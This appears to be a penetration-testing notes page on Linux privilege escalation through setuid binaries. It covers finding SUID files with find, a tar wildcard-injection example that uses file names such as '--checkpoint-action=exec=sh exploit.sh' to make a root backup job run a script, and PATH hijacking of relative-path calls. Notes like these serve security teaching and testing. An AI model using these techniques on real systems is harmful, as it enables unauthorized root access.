 ```yaml
---
id: exploit_setuid_binaries
aliases:
  - SETUID
tags:
  - privilege_escalation
  - linux
---
```


## Usage:
The setuid/setgid (SUID/SGID) bits allows the binary to run with the privileges of the user/group owner instead of those of the user executing it. They can be spotted with the s or S permission in the file user or group owner permissions (i.e. ---s--s---). When the file permissions features an uppercase S instead of a lowercase one, it means the corresponding user or group owner doesn't have execution rights. 
> [!WARNING]
> - Just like capabilities, setuid and setgid bits are unset when a file is copied with cp or when its content changes.
> - Some partitions of the UNIX file system can be mounted with the nosuid option. In this case the setuid and setgid bits are ignored for binaries placed inside those partitions. It is a common good practice for tmpfs partitions like /tmp or/run. Searching the /proc/mounts pseudo-file for a nosuid flag can help find these partitions.

## Find SETUID:
- `sudo -l`
- find:
```bash
find $starting_path -perm -u=s -type f 2>/dev/null

# Or in octal mode
find $starting_path -perm -4000 -type f 2>/dev/null
  ```

## Exploit SETUID:
### Living off the land:
> [!WARNING]
> Check if the binary is in [GTFOBins](https://gtfobins.github.io/gtfobins/) for exploitation techniques
#### Examples:
  - Using [shell_wildcards](hack/vulnerabilities/shell_wildcards.md) 
    - Imagine a scenario where a script backups a directory (that we can control) on the server each hour using tar like this :
       ```bash
       !/bin/bash
       mkdir -p /backups/
       cd /var/www/html/ && tar cvzf /backups/backup_$(date +%Y_%m_%d_%Hh%M).tar.gz *
       ``` 

  - To use these options in our exploit, we jut need to create these two files in our directory, as well as the exploit.sh file, containing the command we want to run when we trigger the execution :
      ```bash 
      echo '' > '--checkpoint=1'
      echo '' > '--checkpoint-action=exec=sh exploit.sh'

      $ ls -lha 
      total 88K
      drwxrwxr-x 2 user user 4,0K avril 27 22:32 .
      drwxrwxrwt 89 user user 76K avril 27 22:31 ..
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file1
      -rw-rw-r-- 1 user user 0 avril 27 22:31 file2
      -rw-rw-r-- 1 user user 1 avril 27 22:31 '--checkpoint=1'
      -rw-rw-r-- 1 user user 1 avril 27 22:32 '--checkpoint-action=exec=sh exploit.sh'
      -rwxrwxrwx 1 user user 784 avril 27 22:32 exploit.sh   
      ```


### Relative path calls:
  1. Usage:
    - The SETUID can be exploited if it makes calls via relative starting_path
  2. Discovery:
    - It can be discovered with `strace` command
  3. Exploitation:
    - Create an exploit and name it the same as the command called by the SETUID
    - Put the exploit path in the $PATH env variable
    - Now when the SRYUID will make the call it will search for it in PATH and execute the exploit
